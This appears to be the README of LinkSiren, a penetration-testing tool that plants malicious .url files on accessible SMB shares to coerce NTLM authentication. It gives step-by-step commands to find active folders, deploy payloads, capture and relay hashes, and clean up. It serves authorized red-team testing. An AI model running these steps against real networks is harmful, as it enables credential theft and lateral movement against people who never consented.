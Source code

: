 # LinkSiren

## What is this tool?
LinkSiren distributes .url files to accessible file shares to coerce NTLM authentication from hosts that open them, like [Farmer](https://github.com/mdsecactivebreach/Farmer/tree/1f37598125a92c9edf41295c6c1b7c258143968d), [Lnkbomb](https://github.com/dievus/lnkbomb), or [Slinky](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-slinky) but with prioritized locations and scalable deployment and cleanup.

## How do I use this NOW?
```bash
git clone https://github.com/gjhami/LinkSiren.git && cd LinkSiren
python -m pip install -r requirements.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# Capture hashes
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How do I use this the \~right\~ way?
```bash
# Download and install requirements
git clone https://github.com/gjhami/LinkSiren.git
cd LinkSiren

# Set up a virtual environment and install requirements
python -m venv .venv
source ./.venv/bin/activate # Linux
# .\.venv\Scripts\activate # Windows
python -m pip install -r requirements.txt

# 1. Create a targets file containing accessible shares, one per line, in the following format: \\server.domain.tld\share
#    I recommend crackmapexec or shareenum 
# 2. Use LinkSiren to identify the most active folders on them
#    Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets <shares file> --identify
# 3. Use LinkSiren to deploy payloads to all of the active folders
#    --identify saves UNC paths to active folders in folder_targets.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --deploy
# 4. Let the hashes come to you and relay them as you see fit :) (I recommend CrackMapExec and LdapRelayScan)
# 5. Cleanup the payload files when you're finished gathering.
#    Set targets to a file containing UNC paths of all folders where payloads were written
#    Note: If you set a custom payload name when deploying, you must set the same name here
#    --deploy saves UNC paths to deployed payloads in payload_folders.txt
python link_siren.py --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt --cleanup
```

## How is this better than the other tools?
Other tools are built to place a single malicious .url file at a specified location and clean them up one at a time. But if you find yourself with access to a lot of shares you may want things to scale and you may not be in the mood to write a wrapper. LinkSiren crawls shares you currently have access to and ranks every subfolder based on the liklihood it will be opened by a user soon so you can target .url file distribution. Additionally, LinkSiren records the full UNC path of every .url file it creates, allowing for cleanup with a single command.

Summary
- Scales to an arbitrary number of .url files
- Targeted .url placement
- Single command cleanup
- Cross platform with python
  
## How will you make it even better?
I'm looking to add the following features:
- [ ] Start the WebClient service on targets using searchConnector-ms and library-ms files (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#start-the-webclient-service) and [Farmer Source Code](https://github.com/mdsecactivebreach/Farmer/blob/main/crop/Crop/Crop.cs))
- [ ] Coerce HTTP authentication with WebDAV connection strings (see [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/webclient#abuse))
- [ ] Add a progress bar for share crawling
- [ ] Enable ticket based authnentication (Kerberos)
- [ ] Multithreading/Multiprocessing for faster share crawling

## Note
This tools is designed for ethical hacking and penetration testing. It should be used exclusively on networks where explicit, written permission has been granted for testing. I accept no responsibility for the safety or effectiveness of this tool. Please don't sue me.
